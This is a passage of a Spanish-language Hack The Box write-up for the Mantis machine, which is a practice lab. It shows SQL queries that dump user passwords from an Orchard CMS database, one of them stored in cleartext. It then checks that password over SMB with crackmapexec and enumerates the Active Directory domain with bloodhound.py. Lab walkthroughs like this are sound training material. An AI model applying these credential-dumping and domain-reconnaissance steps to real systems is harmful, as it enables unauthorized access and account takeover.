Voy a enumerar la base de datos orcharddb, podemos extraer usuarios y contrasesñas . Debido a que el output se muestra regular, lo he separado en dos consultas.

USERS

```SQL
SQL> select username from blog_Orchard_Users_UserPartRecord;
username                                                                                                                                                                                                                                                          

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
admin                                                                                                                                                                                                                                                             
James    
```

PASSWORDS

```SQL
SQL> select password from blog_Orchard_Users_UserPartRecord;
password                                                                                                                                                                                                                                                          
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------   
AL1337E2D6YHm0iIysVzG8LA76OozgMSlyOJk1Ov5WCGK+lgKY6vrQuswfWHKZn2+A==                                                                                                                                                                                              
J@m3s_P@ssW0rd!
```

La contraseña de james esta en claro. Vamos a probar si es un usuario valido del sistema.

```bash
❯ crackmapexec smb 10.10.10.52 -d htb.local -u james -p 'J@m3s_P@ssW0rd!'
SMB         10.10.10.52     445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.52     445    MANTIS           [+] htb.local\james:J@m3s_P@ssW0rd! 
```

El usuario es valido, pero no podemos ganar una shell todavía, principalmente porque el winrm no esta abierto.

Tampoco pude realizar un Kerberoasting ni un ASREPRoast (Teniendo credenciales validas puedes enumerar RPC). Voy a usar bloodhound.py para extraer información del dominio.

```bash
❯ python3 bloodhound.py -c ALL -u 'james' -p 'J@m3s_P@ssW0rd!' -d 'htb.local' -ns 10.10.10.52
INFO: Found AD domain: htb.local
INFO: Connecting to LDAP server: mantis.htb.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: mantis.htb.local
INFO: Found 4 users
INFO: Found 41 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: mantis.htb.local
INFO: Done in 00M 11S
```
